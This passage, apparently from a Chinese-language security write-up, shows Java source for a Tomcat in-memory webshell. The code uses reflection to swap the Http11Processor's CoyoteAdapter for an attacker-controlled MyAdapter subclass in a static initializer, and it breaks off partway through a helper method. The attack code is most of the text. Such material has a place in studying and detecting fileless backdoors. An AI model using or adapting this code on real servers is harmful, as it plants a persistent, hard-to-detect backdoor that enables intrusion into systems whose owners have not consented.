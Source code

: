 之后将 Http11Processor 中 CoyoteAdapter 替换为我们内存马的逻辑

```plain
static {
        Http11Processor http11Processor = (Http11Processor) getHttp11Processor();
        CoyoteAdapter adapter = (CoyoteAdapter) http11Processor.getAdapter();
        Connector connector = (Connector) getField(adapter, adapter.getClass(), "connector");
        MyAdapter adapterMem = new MyAdapter(connector);
        setFiled(http11Processor, http11Processor.getClass().getSuperclass(), "adapter", adapterMem);
    }
```

我的 Adapter 内存马完整构造如下

```plain
import org.apache.catalina.connector.Connector;
import org.apache.catalina.connector.CoyoteAdapter;
import org.apache.coyote.http11.Http11Processor;
import org.apache.tomcat.util.net.NioChannel;
import org.apache.tomcat.util.net.NioEndpoint;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.util.Set;


public class MyAdapter extends CoyoteAdapter {

    static {
        Http11Processor http11Processor = (Http11Processor) getHttp11Processor();
        CoyoteAdapter adapter = (CoyoteAdapter) http11Processor.getAdapter();
        Connector connector = (Connector) getField(adapter, adapter.getClass(), "connector");
        MyAdapter adapterMem = new MyAdapter(connector);
        setFiled(http11Processor, http11Processor.getClass().getSuperclass(), "adapter", adapterMem);
    }

    public static Object getField(Object object, Class clazz, String fieldName) {
        Field declaredField;
        try {
            declaredField = clazz.getDeclaredField(fieldName);
            declaredField.setAccessible(true);
            return declaredField.get(object);
        } catch (NoSuchFieldException e) {
        } catch (IllegalAccessException e) {
        }
        return null;
    }

    public static void setFiled(Object object, Class clazz, String filed_Name, Object value) {
        Field flied = null;
        try {
            flied = clazz.getDeclaredField(filed_Name);
            flied.setAccessible(true);
            flied.set(object, value);
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getHttp11Processor() {
        ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
```